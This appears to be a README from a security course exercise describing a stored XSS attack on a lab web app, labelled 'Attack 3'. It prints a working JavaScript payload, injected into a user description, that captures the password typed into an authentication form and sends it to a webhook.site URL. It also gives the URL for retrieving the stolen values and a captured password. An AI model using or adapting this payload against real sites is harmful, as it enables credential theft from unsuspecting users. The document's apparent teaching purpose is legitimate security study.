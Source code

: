 # Attack 3

This attack uses an XSS vulnerability, and changes the functionality of the submit button to send a request to our webhook.

The script first executes attack 2 in order to get the session key, then it appends our javascript code to Jonas's description if it doesn't exist.

From then on, every 30 seconds the script checks if the webhook has been received, if not, then it checks if the XSS vulnerability is still in the description. Updates if it's not there.

We used webhook.site as our cross website.

The script we wrote looks like this:

```javascript
document.addEventListener("DOMContentLoaded", () => {
    document.getElementById("authForm").addEventListener("submit", () => {
        const key = document.getElementById("authPassword").value;
        fetch("//webhook.site/c60e8309-2035-4484-8777-121da40750d6?key=" + encodeURIComponent(key));
    })
});
```

And the complete inner HTML `<textarea>` looks like this:

```html
The most friendly employee in the company
<script>
//eiunrg9ea8gnq780b4387

document.addEventListener("DOMContentLoaded", () => {
    document.getElementById("authForm").addEventListener("submit", () => {
        const key = document.getElementById("authPassword").value;
        fetch("//webhook.site/c60e8309-2035-4484-8777-121da40750d6?key=" + encodeURIComponent(key));
    })
});

</script>
```

The id `eiunrg9ea8gnq780b4387` is used to check if the script is still in the description or not.

When a webhook is received, it should be visible in webhook.site's JSON path: https://webhook.site/token/c60e8309-2035-4484-8777-121da40750d6/requests?page=1&password=&query=&sorting=newest

***NOTE:** The webhook url currently used will expire 2023-12-16 05:52:35. You need to update the url if you want to test it after that time period*

Located in `data["data"][0]["query"]["key"]`.

The python script should then print the password in the terminal: `jeg!Har%Mest&LystTil&At%Være-En-Hacker`
